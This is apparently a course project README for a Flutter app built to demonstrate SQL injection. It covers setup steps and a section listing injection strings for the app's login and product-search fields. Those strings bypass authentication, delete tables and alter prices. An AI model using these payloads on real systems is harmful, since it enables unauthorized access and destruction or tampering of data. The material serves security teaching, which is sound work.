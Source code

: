 # SQL Injection Sample CNT 4403

## About The Project

A sample application to demonstrate an SQL injection exploit.

### Built With

- [Flutter](https://flutter.io)
- [MobX.dart](https://mobx.pub)
- [SQLite](https://pub.dev/packages/sqflite)

## Getting Started

To get a local copy up and running follow these simple steps.

### Prerequisites

- Flutter SDK

```
cd ~
git clone https://github.com/flutter/flutter.git -b beta --depth 1
./flutter/bin/flutter --version

# Export the PATH varaible for the flutter cli tool
# open the rc file for your shell (.bashrc, .bash_profile, .zshrc, or similar)
# Add the following line
export PATH=~/flutter/bin:$PATH

# source your rc file or restart your terminal session
source ~/.zshrc

# Verify flutter sdk installed
which flutter
```

- iOS and Android Setup

  - Download latest version of [Xcode][xcode]
  - Download latest version of [Android Studio][android-studio]

- Flutter Doctor
  - This command checks your environment and displays a report to the terminal window.
  - Follow the steps in each section of `flutter doctor` to finish the setup process

```
flutter doctor
```

- VS Code
  - Download latest version of [VS Code][vs-code]
  
## Using the App

Once running you can add users to the local ```User``` database by pressing the swapp button found in the upper left corner and signing up a new user. Pressing the info button in the top right corner shows a list of all entries in the database.

After there is a user in the database, you can attempt to sign in with their credentials. The first dialog shows the SQL query that was used, and the second dialog displays the fetched results.

## Hacking the Database

### Login Example
The SQL injection can be done using the password field of the form. Try some of the following commands:
- ``` ' OR email = 'you_email_here' --```
- ``` '; DELETE FROM User -- ```
- ```' OR 1 = 1 LIMIT 1 -- ```

### Amazon Example
The SQL injection can be done using the search field of the view. **_Note that the bell icon will add the initial values to the database_** Try some of the following commands:
- ```%'; UPDATE Products set price = 0 where name = 'Yeezys' -- ```
- ```%'; UPDATE Products set rating = 0 where name = 'Yeezys' -- ```
- ```%'; UPDATE Products set price = 2 where name like '%ray-ban%' -- ```
- ```%'; UPDATE Products set name = 'hak3d' where name like '%r2-d2%' -- ```
- ```%'; DELETE FROM Products -- ```

Have Fun!!!
